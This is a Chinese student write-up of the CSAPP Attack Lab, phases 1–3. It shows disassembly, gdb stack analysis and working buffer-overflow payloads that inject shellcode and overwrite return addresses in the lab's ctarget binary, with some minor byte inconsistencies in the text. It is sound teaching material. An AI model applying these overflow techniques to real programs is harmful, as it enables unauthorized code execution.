

# CSAPP lab 3 - Attack lab 实验记录

- [CSAPP lab 3 - Attack lab 实验记录](#csapp-lab-3---attack-lab-实验记录)
  - [准备工作](#准备工作)
  - [Part I: Code Injection Attack](#part-i-code-injection-attack)
    - [Phase 1：覆盖返回地址](#phase-1覆盖返回地址)
    - [Phase 2：在 buf 中插入攻击代码并覆盖返回地址](#phase-2在-buf-中插入攻击代码并覆盖返回地址)
    - [Phase 3：在 buf 中插入所需字符串和攻击代码，并覆盖返回地址](#phase-3在-buf-中插入所需字符串和攻击代码并覆盖返回地址)
      - [一开始的错误解答](#一开始的错误解答)
      - [忽略随机栈空间的不正确解答](#忽略随机栈空间的不正确解答)
      - [正确的解答](#正确的解答)
  - [Part II: Return oriented Programming attack](#part-ii-return-oriented-programming-attack)
    - [Phase 4](#phase-4)
    - [Phase 5](#phase-5)
  - [总结](#总结)
  - [参考资料](#参考资料)

## 准备工作

文件夹中的几个重要文件如下：

- cookie.txt: 8 个 16 进制数字的码，用于唯一标记
- ctarget: 准备用于 code injection attack
- farm.c: 用于 return oriented programming attacks
- hex2raw: 用于生成攻击的二进制文件
- README.txt: 介绍了文件夹中文件的内容
- rtarget: 准备用于 return oriented programming attacks

实验分为 5 个 phase，其中 Phase 1 到 phase 3 是使用 code injection attack，phase 4-5 使用 return oriented programming attack。

## Part I: Code Injection Attack

### Phase 1：覆盖返回地址

在这个 phase 中，我们需要引导 ctarget 中的`test`函数返回到`touch1`函数。首先我们对`ctarget`做反汇编。其中`test`函数的汇编代码如下：

```
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	retq
```

而`touch1`函数的地址是`0x4017c0`。

在这其中我们调用`getbuf`函数来进行 buffer overflow 攻击，原本的该函数的下一条返回地址是`0x401976`，我们需要将其换成`0x4017c0`。我们现在对`getbuf`进行反汇编(nop 指令省去)：

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq
```

对该过程进行分析：

1. 留出 40 个字节的位置
2. rdi = rsp
3. 调用 gets 函数
4. eax = 1
5. 恢复栈空间
6. 返回

要完成这个实验，我们需要直到几个值：

1. buf 的位置: 应该进入`getbuf`后，`%rsp - 40`之后的位置
2. 返回地址在栈中位置: 在调用`callq`函数时，我们会将`%rsp - 8`，然后将返回地址压入，然后将`%rip`设置为`getbuf`函数的地址。（同理，调用`retq`的时候，我们会把栈顶的地址赋给`%rip`，然后让`%rsp + 8`，也就是弹出返回地址）因此返回地址在栈中的位置也就是调用完`callq`之后`%rsp`的位置。
3. `touch1`函数的地址:`0x4017c0`

这样来看，buf 及其本地变量部分应该是分配了 40 个字节，而返回地址有 8 个字节，因此我们在写入的时候，前 40 个字节随意（不能有 0x0a,那个是换行符）。因为是小端法，最后 8 个字节应该是`0xc0 0x17 0x40`。

该阶段输入内容存储在`phase1.txt`中，内容如下：`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40`。输入命令`./hex2raw < phase1.txt | ./ctarget -q`进行测试(`-q`是指运行在本地电脑上)，结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40
```

成功！

### Phase 2：在 buf 中插入攻击代码并覆盖返回地址

在这个 phase 中我们需要在 buffer overflow 字符串中保留一部分攻击代码，让`test`函数返回到`touch2`，而且我们需要让`val`的值等于`cookie`的值。（而且这里我们不能直接让`test`返回到打印`Touch2!`那一句，因为前面有`vlevel = 2`，后面需要验证这个值是不是 2，如果直接跳到那一句的话，`vlevel`没有赋值，也肯定不等于 2，验证就会失败）。

`touch2`的函数源码如下：

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

`touch2`的汇编函数如下：

```
00000000004017ec <touch2>:
seg1:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
seg2:
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
seg3:
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

从上述汇编代码可以看出，`val`的值在最开始存在`edi`处。那么我们的目的就是让这个值等于`cookie`。而且`cookie`的位置是`6044e4`。所以我们的目的是让`%edi`寄存器的值等于`6044e4`处的值。

要实现攻击，我们的 buffer overflow 必须完成四步动作：

1. 让 return address 等于 buf 的开头
2. 在 buf 开头插入赋值语句，让`%edi = *0x6044e4`
3. 让 return address = touch2 的入口地址(`0x4017ec`)
4. 调用`ret`

首先，要完成第一步，我们首先得找到 buf 的开头位置。通过 phase 1 的 getbuf 我们可以知道，buf 的位置在压完返回地址后减去 40 个字节的位置。因为前三问的栈的位置固定，因此我们可以通过 gdb 看一下减去 40 以后`%rsp`在哪里。
我们着重观察 3 个地方的`$rsp`：

1. 调用`getbuf`之前: 0x5561dca8
2. 调用`getbuf`之后: 0x5561dca0
3. 调用`rsp = rsp - 40`之后: 0x5561dc78

那么我们可以判断 buf 的起始位置是`0x5561dc78`，返回地址的位置在其后 40 个字节处，也就是`0x5561dca0`。那么我们需要让 return address(buf 最后 8 个字节)的值等于`0x5561dc78`。换成小端序就是`0x78 0xdc 0x61 0x55`。

第二条要生成的指令应该是:

```
movl $0x6044e4,%eax
movl (%eax),%edi
```

第三条要生成的指令应该是：

```
subq $0x8,%rsp
movl 0x4017ec,($rsp)
```

最后一条插入的指令是`ret`，在这个过程中，`%rsp`处的内容会被赋值给`%rip`，`%rsp`会自动加上 8。

最后插入数条`nop`指令实现 PC 的顺序累加。

由于这些指令在 Appendix A 表格中没有，所以我们需要手动生成。我们将如下内容保存在文件中：

```
    movl $0x6044e4,%eax
    movl (%eax),%edi
    subq $0x8,%rsp
    movl $0x4017ec,(%rsp)
    ret
    nop
    nop
    nop
    nop
```

然后使用`gcc -c ph2.s`生成`ph2.o`文件，然后使用`objdump -d ph2.o > ph2.d`，打开`ph2.d`，有如下内容：

```

ph2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	b8 e4 44 60 00       	mov    $0x6044e4,%eax
   5:	67 8b 38             	mov    (%eax),%edi
   8:	48 83 ec 08          	sub    $0x8,%rsp
   c:	c7 04 24 ec 17 40 00 	movl   $0x4017ec,(%rsp)
  13:	c3                   	retq
  14:	90                   	nop
  15:	90                   	nop
  16:	90                   	nop
  17:	90                   	nop
```

那么我们所需要的字节就是`b8 e4 44 60 00 67 8b 38 48 83 ec 08 c7 04 24 ec 17 40 00 c3`，共 20 字节。后续再插入 20 个字节的`nop`(0x90)

完整的字符串是`b8 e4 44 60 00 67 8b 38 48 83 ec 08 c7 04 24 ec 17 40 00 c3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 dc 61 55`，我将其保存在`phase2.txt`中。

> 注：一开始把`0x5561dc78`打成了`0x5564dc78`导致出现访问了未被初始化的位置，出现了 segmentation fault。在输入地址的时候要小心谨慎，不要出现太多问题。
>
> 此外，注入代码的时候需要手动添加`ret`指令，否则程序不知道要返回，就算 buffer overflow 覆盖了返回地址也没用。

结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:B8 E4 44 60 00 67 8B 38 48 83 EC 08 C7 04 24 EC 17 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55
```

成功！

### Phase 3：在 buf 中插入所需字符串和攻击代码，并覆盖返回地址

在 phase 3 中，我们需要让程序在`getbuf`后，运行`touch3`函数，其注入方式和 phase 2 类似。（此处需要利用`vlevel = 3`进行跳转后验证，因此和上次一样，我们不能直接跳转到`Touch3!`语句，还是需要注入代码，将`%rdi`设置为`cookie`的值，然后再引导程序跳转到`touch3`的开头语句）。`touch3`函数的 C 语言版本如下：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3("%s")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3("%s")\n", sval);
        fail(3);
    }
    exit(0);
}
```

#### 一开始的错误解答

这里的差别在于我们输入的`string`是一个`cookie`的字符串表示。我们对`touch3`做反汇编看看`cookie`的字符串表示存在哪里？

```
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
```

我们输入`x/s 0x6044e4`看看结果：

```
(gdb) x/s 0x6044e4
0x6044e4 <cookie>:      ""
```

这里同样，可以看出来和上一次的`cookie`放在一个位置上。但是上次输入的是数字，这次输入的是字符串。因此，上次是将输入的值`%rdi`设置为`0x6044e4`位置的值。而这次`%rdi`指向输入的字符串，我们需要做的是将`%rdi`设置为`0x6044e4`。

此外，`touch3`的入口地址为`0x4018fa`。因此在最后需要让 return address 等于这个值。

那么总体的注入和上次遵循一样的步骤：

1. 让 return address 等于 buf 的开头(`0x5561dc78`)
2. 在 buf 开头插入赋值语句，让`%edi = 0x6044e4`
3. 让 return address = touch3 的入口地址(`0x4018fa`)
4. 调用`ret`

综上，这次的调用语句是：

```
    movl $0x6044e4,%edi
    subq $0x8,%rsp
    movl $0x4018fa,(%rsp)
    ret
    nop
    nop
    nop
    nop
```

将其保存在`ph3.s`中，输入`gcc -c ph3.s`生成`ph3.o`文件，再`objdump -d ph3.o > ph3.d`，生成`ph3.d`文件。

文件内容如下：

```

ph3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf e4 44 60 00       	mov    $0x6044e4,%edi
   5:	48 83 ec 08          	sub    $0x8,%rsp
   9:	c7 04 24 fa 18 40 00 	movl   $0x4018fa,(%rsp)
  10:	c3                   	retq
  11:	90                   	nop
  12:	90                   	nop
  13:	90                   	nop
  14:	90                   	nop

```

那么其一直到`ret`的字节即为`bf e4 44 60 00 48 83 ec 08 c7 04 24 fa 18 40 00 c3`。一共 17 个字节。将其字节复制到`phase3.txt`的最前面。添加 23 个`nop`(`0x90`)凑齐 40 个字节，最后 8 个字节的值必须等于`0x5561dc78`。换成小端序就是`0x78 0xdc 0x61 0x55`。

完整字符串如下：

```
bf e4 44 60 00 48 83 ec 08 c7 04 24 fa 18 40 00 c3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 dc 61 55
```

输入`./hex2raw < phase3.txt | ./ctarget `。结果如下：

```bash
Cookie: 0x59b997fa
Type string:Misfire: You called touch3("���Y")
FAIL: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:FAIL:0xffffffff:ctarget:3:BF E4 44 60 00 48 83 EC 08 C7 04 24 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55
```

最后确实跳转到了`touch3`，可是 cookie 字符串的值完全不是我们想要的那个东西啊喂！(很不爽)

#### 忽略随机栈空间的不正确解答

我们最早是认为，应该让`%edi`指向`0x6044e4`，也就是`cookie`字符串所在的位置，来让`%edi`和 cookie 相等，但是好像题目不是这么个意思。仔细看了原本的 C 语言函数后发现，`cookie`不是个字符串，还是个`unsigned`类型，但是我们之前并没有仔细阅读 C 语言函数。因此闹了笑话。争取的意思应该是让`输入的字符串`和`打印出来的 cookie 的值`相同。所以这里不能让`%rdi`指向 cookie 所在位置，因为其类型都不一样。而应该在代码中插入一段字符串，将其值赋给`%rdi`，然后让`%rdi`和`cookie`的打印版进行比较。

那么`cookie`的值是多少？我们使用`p /x cookie`命令打印一下：

```
(gdb) p /x cookie
$4 = 0x59b997fa
```

所以输入的字符串应该是`0x59b997fa`。

经过阅读 attacklab.pdf，作者给出了以下几个提示：

1. 攻击字符串中应该包含一个 cookie 的字符串表示。该字符串应该包含 8 个 16 进制字符（不带 0x）
2. 字符串最后应该有个 0，输入`man ascii`在 Linux 中查找 ascii 表
3. 攻击代码应该让`%rdi`的值等于这个字符串的起始地址
4. `hexmatch`和`strncmp`可能会覆盖一部分`getbuf`中的 buf，注意不要让你的攻击字符串被覆盖掉。

那么初始的准备工作应该是：

1. 确定插入字符串和攻击代码的有效区域，防止被`hexmatch`和`strncmp`影响到
2. 查找`cookie`字符串的编码，加上一个`\0`，并插入到攻击代码之前
3. 确定攻击代码的起始位置（在插入的字符串后），将其地址插入到 buffer overflow 的最后 8 个字节

在攻击代码中所做的工作应该是：

1. 让`%rdi = 插入字符串的起始位置`
2. 将`touch3`的起始位置插入到返回地址处
3. 调用`ret`返回
4. 通过多个`nop`填充字符串（也可以不填充？）

我们首先确定`getbuf`的`buf`范围，`hexmatch`的辐射范围和`strncmp`的辐射范围。

通过[前文](#phase-2在-buf-中插入攻击代码并覆盖返回地址)我们分析过：

1. 调用`getbuf`之前: `0x5561dca8`
2. 调用`getbuf`之后: `0x5561dca0`
3. 调用`rsp = rsp - 40`之后: `0x5561dc78`

可以了解到`buf`的范围是：`0x5561dc78 ~ 0x5561dc9f`，`buf`后 8 个字节的返回地址的位置是`0x5561dca0`。

对`touch3`进行反汇编可得：

```
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:     push   %rbx
   0x00000000004018fb <+1>:     mov    %rdi,%rbx
   0x00000000004018fe <+4>:     movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:    mov    %rdi,%rsi
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:    callq  0x40184c <hexmatch>
   0x0000000000401916 <+28>:    test   %eax,%eax
   0x0000000000401918 <+30>:    je     0x40193d <touch3+67>
   0x000000000040191a <+32>:    mov    %rbx,%rdx
   0x000000000040191d <+35>:    mov    $0x403138,%esi
   0x0000000000401922 <+40>:    mov    $0x1,%edi
   0x0000000000401927 <+45>:    mov    $0x0,%eax
   0x000000000040192c <+50>:    callq  0x400df0 <__printf_chk@plt>
   0x0000000000401931 <+55>:    mov    $0x3,%edi
   0x0000000000401936 <+60>:    callq  0x401c8d <validate>
   0x000000000040193b <+65>:    jmp    0x40195e <touch3+100>
   0x000000000040193d <+67>:    mov    %rbx,%rdx
   0x0000000000401940 <+70>:    mov    $0x403160,%esi
   0x0000000000401945 <+75>:    mov    $0x1,%edi
   0x000000000040194a <+80>:    mov    $0x0,%eax
   0x000000000040194f <+85>:    callq  0x400df0 <__printf_chk@plt>
   0x0000000000401954 <+90>:    mov    $0x3,%edi
   0x0000000000401959 <+95>:    callq  0x401d4f <fail>
   0x000000000040195e <+100>:   mov    $0x0,%edi
   0x0000000000401963 <+105>:   callq  0x400e40 <exit@plt>
End of assembler dump.
```

对`hexmatch`进行反汇编可得：

```
Dump of assembler code for function hexmatch:
   0x000000000040184c <+0>:     push   %r12
   0x000000000040184e <+2>:     push   %rbp
   0x000000000040184f <+3>:     push   %rbx
   0x0000000000401850 <+4>:     add    $0xffffffffffffff80,%rsp
   0x0000000000401854 <+8>:     mov    %edi,%r12d
   0x0000000000401857 <+11>:    mov    %rsi,%rbp
   0x000000000040185a <+14>:    mov    %fs:0x28,%rax
   0x0000000000401863 <+23>:    mov    %rax,0x78(%rsp)
   0x0000000000401868 <+28>:    xor    %eax,%eax
   0x000000000040186a <+30>:    callq  0x400db0 <random@plt>
   0x000000000040186f <+35>:    mov    %rax,%rcx
   0x0000000000401872 <+38>:    movabs $0xa3d70a3d70a3d70b,%rdx
   0x000000000040187c <+48>:    imul   %rdx
   0x000000000040187f <+51>:    add    %rcx,%rdx
   0x0000000000401882 <+54>:    sar    $0x6,%rdx
   0x0000000000401886 <+58>:    mov    %rcx,%rax
   0x0000000000401889 <+61>:    sar    $0x3f,%rax
   0x000000000040188d <+65>:    sub    %rax,%rdx
   0x0000000000401890 <+68>:    lea    (%rdx,%rdx,4),%rax
   0x0000000000401894 <+72>:    lea    (%rax,%rax,4),%rax
   0x0000000000401898 <+76>:    shl    $0x2,%rax
   0x000000000040189c <+80>:    sub    %rax,%rcx
   0x000000000040189f <+83>:    lea    (%rsp,%rcx,1),%rbx
   0x00000000004018a3 <+87>:    mov    %r12d,%r8d
   0x00000000004018a6 <+90>:    mov    $0x4030e2,%ecx
   0x00000000004018ab <+95>:    mov    $0xffffffffffffffff,%rdx
   0x00000000004018b2 <+102>:   mov    $0x1,%esi
   0x00000000004018b7 <+107>:   mov    %rbx,%rdi
   0x00000000004018ba <+110>:   mov    $0x0,%eax
   0x00000000004018bf <+115>:   callq  0x400e70 <__sprintf_chk@plt>
   0x00000000004018c4 <+120>:   mov    $0x9,%edx
   0x00000000004018c9 <+125>:   mov    %rbx,%rsi
   0x00000000004018cc <+128>:   mov    %rbp,%rdi
   0x00000000004018cf <+131>:   callq  0x400ca0 <strncmp@plt>
   0x00000000004018d4 <+136>:   test   %eax,%eax
   0x00000000004018d6 <+138>:   sete   %al
   0x00000000004018d9 <+141>:   movzbl %al,%eax
   0x00000000004018dc <+144>:   mov    0x78(%rsp),%rsi
   0x00000000004018e1 <+149>:   xor    %fs:0x28,%rsi
   0x00000000004018ea <+158>:   je     0x4018f1 <hexmatch+165>
   0x00000000004018ec <+160>:   callq  0x400ce0 <__stack_chk_fail@plt>
   0x00000000004018f1 <+165>:   sub    $0xffffffffffffff80,%rsp
   0x00000000004018f5 <+169>:   pop    %rbx
   0x00000000004018f6 <+170>:   pop    %rbp
   0x00000000004018f7 <+171>:   pop    %r12
   0x00000000004018f9 <+173>:   retq
End of assembler dump.
```

对`strncmp`进行反汇编可得：

```
Dump of assembler code for function strncmp_ifunc:
   0x00007ffff7e54710 <+0>:     endbr64
   0x00007ffff7e54714 <+4>:     mov    0x14c745(%rip),%rcx        # 0x7ffff7fa0e60
   0x00007ffff7e5471b <+11>:    lea    0xe4b0e(%rip),%rax        # 0x7ffff7f39230 <__strncmp_avx2>
   0x00007ffff7e54722 <+18>:    movabs $0x90000000002,%rdx
   0x00007ffff7e5472c <+28>:    movabs $0x10000000002,%rsi
   0x00007ffff7e54736 <+38>:    and    0xc8(%rcx),%rdx
   0x00007ffff7e5473d <+45>:    cmp    %rsi,%rdx
   0x00007ffff7e54740 <+48>:    je     0x7ffff7e54772 <strncmp_ifunc+98>
   0x00007ffff7e54742 <+50>:    mov    0x70(%rcx),%edx
   0x00007ffff7e54745 <+53>:    test   $0x100000,%edx
   0x00007ffff7e5474b <+59>:    je     0x7ffff7e5475d <strncmp_ifunc+77>
   0x00007ffff7e5474d <+61>:    lea    0xdf78c(%rip),%rax        # 0x7ffff7f33ee0 <__strncmp_sse42>
   0x00007ffff7e54754 <+68>:    testb  $0x80,0xcc(%rcx)
   0x00007ffff7e5475b <+75>:    je     0x7ffff7e54772 <strncmp_ifunc+98>
   0x00007ffff7e5475d <+77>:    and    $0x2,%dh
   0x00007ffff7e54760 <+80>:    lea    0xaef9(%rip),%rax        # 0x7ffff7e5f660 <__strncmp_sse2>
   0x00007ffff7e54767 <+87>:    lea    0xc51a2(%rip),%rdx        # 0x7ffff7f19910 <__strncmp_ssse3>
   0x00007ffff7e5476e <+94>:    cmovne %rdx,%rax
   0x00007ffff7e54772 <+98>:    retq
End of assembler dump.
```

其中与栈相关的指令包括：

```
hex2match前(touch3中)：
    push   %rbx
    callq hex2match
hex2match:
   0x000000000040184c <+0>:     push   %r12
   0x000000000040184e <+2>:     push   %rbp
   0x000000000040184f <+3>:     push   %rbx

   0x00000000004018f5 <+169>:   pop    %rbx
   0x00000000004018f6 <+170>:   pop    %rbp
   0x00000000004018f7 <+171>:   pop    %r12
                                retq
hex2match后：
    callq strncmp
strncmp:
    retq
```

由于`hexmatch`和`strncmp`是在`touch3`里面调用的，而`touch3`是在执行攻击代码之后调用，在攻击代码中我们将`%rdi`指向字符串的地址，因此我们需要保证的是`touch3`中的`push`和`pop`指令不影响之前的字符串，以免影响`%rdi`指向的值。

在调用`touch3`之前，我们刚刚执行了`ret`指令，其作用是将返回地址赋值给`%rip`并弹出，操作完成后`%rsp`应该在`buf + 48`位置处。我们是通过直接返回到`touch3`的开头位置来执行`touch3`的，而不是`callq touch3`，因此无需往栈中压入下一条指令的地址（当然这里也没有下一条啦~）

通过上述过程分析我们可以看到，栈的最低位置应该是在经过了一下几个步骤之后：

1. `push %rbx`，这里压入了 rbx，栈位置来到了`buf + 40`
2. `callq hex2match`，这里压入了`callq`的下一条指令的地址，栈位置来到了`buf + 32`
3. `push r12`，压入了`r12`，栈位置来到了`buf + 24`
4. `push rbp`，压入了`rbp`，栈位置来到了`buf + 16`
5. `push rbx`，压入了`rbx`，栈位置来到了`buf + 8`

后续主要执行的都是`pop`和`retq`操作，虽然有一个`callq strncmp`，但是栈的位置不可能低于`buf + 8`。因此我们插入的字符串必须在`buf + 8`之前。我们输入的字符串刚好是 8 个字符，1 个字符一个字节，也刚好是 8 个字节，那么就应当插在`buf`处。从`buf + 8`处开始插入攻击代码。

此外：

1. `59b997fa`的字符串编码应该是：`0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61`（插在攻击代码前）
2. `buf + 8`处的地址是：`0x5561dc80`（插入返回地址部分），转化成小端法应该是`80 dc 61 55`
3. `touch3`的地址是`0x4018fa`

那么我们的攻击指令应该是：

```
movl $0x5561dc78,%edi
subq $0x8,%rsp
movl $0x4018fa,(%rsp)
ret
```

将其放入`ph3.s`中，输入`gcc -c ph3.s`得到`ph3.o`，输入`objdump -d ph3.o > ph3.d`，得到`ph3.d`文件如下：

```

ph3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf 78 dc 61 55       	mov    $0x5561dc78,%edi
   5:	48 83 ec 08          	sub    $0x8,%rsp
   9:	c7 04 24 fa 18 40 00 	movl   $0x4018fa,(%rsp)
  10:	c3                   	retq
  11:	90                   	nop
  12:	90                   	nop
  13:	90                   	nop
  14:	90                   	nop

```

那么其字节应该是`bf 78 dc 61 55 48 83 ec 08 c7 04 24 fa 18 40 00 c3`。一共 17 个字节，加上最前面 8 个字节，一共 25 个字节。最后插入 15 个字节的`nop`。
执行过程中内存情况如下：

```
(gdb) x/48xb 0x5561dc78
0x5561dc78:     0x35    0x39    0x62    0x39    0x39    0x37    0x66    0x61
0x5561dc80:     0xbf    0x78    0xdc    0x61    0x55    0x48    0x83    0xec
0x5561dc88:     0x08    0xc7    0x04    0x24    0xfa    0x18    0x40    0x00
0x5561dc90:     0xc3    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x5561dc98:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x5561dca0:     0x80    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```

而这里我们打印值后发现我们的`%edi`所指向的字符串如下：

```
(gdb) x/s $rdi
0x5561dc78:     "59b997fa\277x\334aUH\203\354\b\307\004$\372\030@"
```

而`cookie`的值如下：

```
(gdb) p /x cookie
$14 = 0x59b997fa
```

但是后来这个`buf`的空间就变成了这样：

```
5: x/48xb 0x5561dc78
0x5561dc78:     0x00    0x2e    0x40    0xcb    0xed    0x3e    0x25    0xb2
0x5561dc80:     0x78    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
0x5561dc88:     0xe8    0x5f    0x68    0x55    0x00    0x00    0x00    0x00
0x5561dc90:     0x02    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x16    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dca0:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
```

但是我们后来发现，这里栈的内容被完全改变了，而且字符串的后面忘了加`\0`字符。所以这里是有一些问题的。

#### 正确的解答

经过查阅一些[网上的资料](https://zhuanlan.zhihu.com/p/60724948)发现，我在阅读 C 语言代码的时候忽略了这 2 行：

```c
char cbuf[110];
/* Make position of check string unpredictable */
char *s = cbuf + random() % 100;
```

那么`hexmatch`和`strncmp`中分配的空间就是随机的。那么我们所做出的改变应该是让插入的字符串放在父函数`test`的位置，然后让`%rdi`指向`test`栈空间中的位置。`test`函数的位置在返回地址下面，那么应该是`buf + 48`即`0x5561dca8`。其字符`bf 78 dc 61 55 48 83 ec 00`应该在返回地址后面。而攻击代码也应该改为：

```
movl $0x5561dca8,%edi
subq $0x8,%rsp
movl $0x4018fa,(%rsp)
ret
```

中间两行代码可以改为`pushq $0x4018fa`。由此，我们在`ph3.s`中放入如下内容：

```
movl $0x5561dca8,%edi
pushq $0x4018fa
ret
```

后续步骤和前述一样，我们生成其汇编代码：

```

ph3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf a0 dc 61 55       	mov    $0x5561dca8,%edi
   5:	68 fa 18 40 00       	pushq  $0x4018fa
   a:	c3                   	retq
   b:	90                   	nop
   c:	90                   	nop
   d:	90                   	nop
   e:	90                   	nop
```

这次我们不把汇编代码插入`buf + 8`了，因为没有意义，我们直接将其插入汇编代码开头即可。最后的 8 个字节返回地址改为`0x5561dc78`。其前面的内容为`bf a0 dc 61 55 68 fa 18 40 00 c3`，共 11 个字节。插入 29 个`nop`(0x90)。在插入 8 个字节的返回地址（`0x000000005561dc78`）。最后放入 9 个字节的字符串`0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61 0x00`。最后结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:BF A8 DC 61 55 68 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

通过！

